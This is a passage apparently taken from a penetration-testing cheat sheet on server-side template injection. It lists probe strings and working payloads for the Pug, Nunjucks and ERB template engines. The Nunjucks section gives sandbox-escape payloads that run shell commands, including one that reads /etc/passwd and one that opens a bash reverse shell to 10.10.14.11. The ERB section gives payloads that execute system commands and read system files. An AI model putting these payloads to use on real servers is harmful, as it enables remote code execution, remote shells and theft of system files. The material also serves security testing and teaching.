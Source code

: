 var pugjs = require('pug');

home = pugjs.render(injected_page)

**More information**

-   ​[https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)​
    

## 

NUNJUCKS (NodeJS)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

-   {{7*7}} = 49
    

-   {{foo}} = No output
    

-   #{7*7} = #{7*7}
    

-   {{console.log(1)}} = Error
    

{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}

{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}

**More information**

-   ​[http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)​
    

## 

ERB (Ruby)[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

-   `{{7*7}} = {{7*7}}`
    

-   `${7*7} = ${7*7}`
    

-   `<%= 7*7 %> = 49`
    

-   `<%= foobar %> = Error`
    

<%= system("whoami") %> #Execute code

<%= Dir.entries('/') %> #List folder

<%= File.open('/etc/passwd').read %> #Read file

​

<%= system('cat /etc/passwd') %>

<%= `ls /` %>
